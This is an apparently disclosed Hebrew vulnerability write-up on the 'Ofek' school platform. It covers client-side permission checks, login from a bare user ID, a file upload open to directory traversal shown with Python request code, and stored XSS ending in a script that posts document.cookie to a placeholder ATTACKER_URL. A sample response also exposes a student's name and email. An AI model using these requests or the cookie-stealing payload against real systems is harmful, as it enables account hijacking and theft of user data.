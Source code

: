 ```yaml
---
layout: post
title: בעיות אבטחה בפלטפורמת "אופק"
tags: [web, xss, account hijacking]
---
```

**גישה ל cms ללא צורך בהרשאות מנהל**

לאחר הסתכלות מהירה על הקוד באתר הגעתי למסקנה שבדיקת ההרשאות מתבצעת בצד הלקוח ולכן
למשתמש הבסיסי יש גישה למידע על הפאנלים הנמצאים בעמוד אך גם ניתן לראות כי הוא יכול לעדכן אותם

```
https://ebaghigh.cet.ac.il/api/js/ofakimApi.bundle.min.js
```
<!--more-->

![](https://i.imgur.com/ksY41EA.png)


![](https://i.imgur.com/xa3G9tm.png)

~~לצערי בזמן הדיווח לא הוספתי את גוף הבקשה לשרת ולכן חלק זה דל מתוכן~~

### התחברות ללא שם משתמש וסיסמה:

לאחר זמן מסויים באתר הבחנתי בבקשה:

```http
POST https://ebag.cet.ac.il/api/users/createSession HTTP/1.1
{
    "userID": "9f4f5c31-103d-4d3b-9789-XXXXXXXXXXXX"
}
```

הבקשה מכילה את מזהה המשתמש `userID` ולא נדרש דבר חוץ מפרט זה על מנת לקבל `token` אימות ופרטים על המשתמש

```js
// response
{
    "value":
    {
        "userAuthenticated": true,
        "pendingRequirements":
        {
            "updateEmail": false,
            "updatePassword": false,
            "pickSchool": false
        },
        "errorDescription": "",
        "user":
        {
            "userID": "9f4f5c31-103d-4d3b-9789-XXXXXXXXXXXX",
            "token": "XXXXXXXX-4678-4956-96a7-XXXXXXXXXXXX",
            "firstName": "עמית",
            "lastName": "אברהמוב",
            "displayName": "עמית אברהמוב",
            "gender": "male",
            "userName": "עמיתאבר126",
            "email": "avr.amit02@gmail.com",
            "avatarUrl": ...,
            "userRole": "student",
            "actualUserRole": "student",
            "isSiteAdmin": false,
            "filterID": ...,
            "defaultRootFolder": ...,
            "schoolID": ...,
            "schoolName": ...,
            "schoolSign": ...,
            "grade": 0,
            "schools": [...]
        }
    },
    "ok": true,
    "code": 0,
    "description": null
}
```

החלק הזה בעצם זורק את כל רעיון ההתחברות לפח ומאפשר להתחבר למשתמש רק על ידי שימוש ב id (אני משער שניתן לעשות לנסות bruteforce עד שנמצא id של משתמש קיים)

### העלאת קבצים:

כאשר תלמיד מחליט לשנות את תמונת הפרופיל שלו מתבצעת בקשה לשרת המכילה את תוכן התמונה ואת שמה

```http
POST http://api.assets.cet.ac.il/filesUpload.ashx HTTP/1.1
```

החלטתי לנסות להעלות קובץ שונה לשרת ולהפתעתי הצלחתי:

```py
print(requests.post('http://api.assets.cet.ac.il/filesUpload.ashx', files={
    'file': ('somefile.txt', 'Hello World')
}).text)
```

ניתן לראות כי הקובץ `somefile.txt` נוכח בכתובת ואכן מכיל את המחרוזת "Hello World"

```
https://storage.cet.ac.il/assets.api/uploads/201811/112f28caa70749d887a7cc8e13a315ed/somefile.txt
```

החלטתי לשחק קצת עם שמות הקבצים ובשלב מסוים הכנסתי תו לא חוקי אשר גרם לשרת להחזיר את השגיאה הבאה:

![](https://i.imgur.com/r5ruSVz.png)

בשגיאה ניתן לראות את פעולת השמירה של הקובץ ואיך נתיב הקובץ נבנה, חשבתי לעצמי מה יקרה אם אעלה קובץ ששמו יהיה:

```
../somefile.txt
```

מה שיגרום לשמירת הקובץ בתיקיית ההורה
העלתי את הקובץ, וכמו שחשבתי, הקובץ לא נשמר בתיקיה היעודית לו 

```py
print(requests.post('http://api.assets.cet.ac.il/filesUpload.ashx', files={
    'file': ('../somefile.txt', 'Hello World')
}).text) 
```

```
http://storage.cet.ac.il/assets.api/uploads/201811/somefile.txt
```

פעולה זאת מאפשרת ליצור קבצים ב root path של השרת (directory traversal)

העלאת קבצי html אפשרית (בהמשך נוכל להשתמש באופציה זו, כמות האופציות אין סופית):

![](https://i.imgur.com/fxlkpLI.png)

* אני משער שניתן להשתמש בפעולה זו על מנת לשכתב את קבצי ה config של השרת (מה שלא עשיתי) ולהגיע להרצת קוד

### stored xss - חטיפת משתמש (גניבת עוגיות):

מכיוון שאתר אופק והשרת אליו מעלים את הקבצים יושבים על דומיין זהה ואין שום הגדרות שמונעות מסאב הדומיין לגשת אל העוגיות, ניתן לקרוא את עוגיות המשתמש על ידי הדפדפן (בנוסף העוגיה לא מוגדרת כ HttpOnly)

```
https://ebaghigh.cet.ac.il/
http://storage.cet.ac.il/assets.api/uploads/201811/112f28caa70749d887a7cc8e13a315ed/somefile.txt
```

נוכל לנצל את בעיית העלאת הקבצים ולהעלות קובץ `html` אשר מכיל קוד זדוני.  
קטע הקוד הבא ישלח חזרה לשרת (`ATTACKER_URL`) את העוגיות של העמוד ובתוכן גם עוגיה המכילה את נתוני המשתמש המחובר, פעולה זו תאפשר לנו להכנס לחשבון המשתמש ללא בעיה.
```html
<script>
fetch(ATTACKER_URL, {
    method: 'POST',
    body: document.cookie
})
</script>
```